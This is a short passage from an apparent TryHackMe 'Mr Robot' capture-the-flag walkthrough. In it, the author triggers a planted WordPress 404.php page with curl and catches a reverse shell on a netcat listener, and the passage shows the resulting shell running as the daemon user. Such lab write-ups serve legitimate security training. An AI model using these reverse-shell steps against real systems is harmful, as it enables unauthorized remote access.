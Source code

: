 ![](images/5.png)

Go to some directory not exist in wp application to load page `404.php`.

```
┌──(Hades㉿10.11.32.198)-[3.7:31.9]~/walkthrough/tryhackme/mrrobot
└─$ curl http://10.10.38.89/shell                                                                                                                                     
```

At the listener, I got reverse shell

```
┌──(Hades㉿10.11.32.198)-[3.7:31.2]~/walkthrough/tryhackme/mrrobot
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.11.32.198] from (UNKNOWN) [10.10.38.89] 59188
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 08:01:35 up  1:23,  0 users,  load average: 0.00, 0.14, 0.35
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```
